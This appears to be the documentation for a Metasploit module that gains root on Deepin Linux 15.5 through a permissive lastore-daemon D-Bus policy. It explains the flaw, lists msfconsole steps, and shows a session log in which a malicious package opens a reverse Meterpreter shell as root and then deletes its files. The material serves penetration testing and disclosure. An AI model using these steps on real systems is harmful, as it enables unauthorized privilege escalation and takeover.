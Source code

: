 ## Description

  This module attempts to gain root privileges on [Deepin Linux](https://www.deepin.org/en/) systems
  by using `lastore-daemon` to install a package.


## Vulnerable Application

  The `lastore-daemon` D-Bus configuration on Deepin Linux 15.5 permits any
  user in the `sudo` group to install arbitrary system packages without
  providing a password, resulting in code execution as root. By default,
  the first user created on the system is a member of the `sudo` group.

  The D-Bus configuration in `/usr/share/dbus-1/system.d/com.deepin.lastore.conf`
  permits users of the `sudo` group to execute arbitrary methods on the
  `com.deepin.lastore` interface, as shown below:

  ```xml
  <!-- Only root can own the service -->
  <policy user="root">
    <allow own="com.deepin.lastore"/>
    <allow send_destination="com.deepin.lastore"/>
  </policy>

  <!-- Allow sudo group to invoke methods on the interfaces -->
  <policy group="sudo">
    <allow own="com.deepin.lastore"/>
    <allow send_destination="com.deepin.lastore"/>
  </policy>
  ```

  This module has been tested successfully with lastore-daemon version
  0.9.53-1 on Deepin Linux 15.5 (x64).

  Deepin Linux is available here:

  * https://www.deepin.org/en/mirrors/releases/

  `lastore-daemon` source repository is available here:

  * https://cr.deepin.io/#/admin/projects/lastore/lastore-daemon
  * https://github.com/linuxdeepin/lastore-daemon/


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/lastore_daemon_dbus_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

```
  msf > use exploit/linux/local/lastore_daemon_dbus_priv_esc 
  msf exploit(linux/local/lastore_daemon_dbus_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/lastore_daemon_dbus_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Building package...
  [*] Writing '/tmp/.NNhJWRPZdd/DEBIAN/control' (98 bytes) ...
  [*] Writing '/tmp/.NNhJWRPZdd/DEBIAN/postinst' (28 bytes) ...
  [*] Uploading payload...
  [*] Writing '/tmp/.1sZZ46ozIH' (207 bytes) ...
  [*] Installing package...
  [*] Sending stage (857352 bytes) to 172.16.191.200
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.200:51464) at 2018-03-24 18:45:29 -0400
  [+] Deleted /tmp/.NNhJWRPZdd/DEBIAN/control
  [+] Deleted /tmp/.NNhJWRPZdd/DEBIAN/postinst
  [+] Deleted /tmp/.1sZZ46ozIH
  [+] Deleted /tmp/.NNhJWRPZdd/DEBIAN
  [*] Removing package...

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.200
  OS           : Deepin 15.5 (Linux 4.9.0-deepin13-amd64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

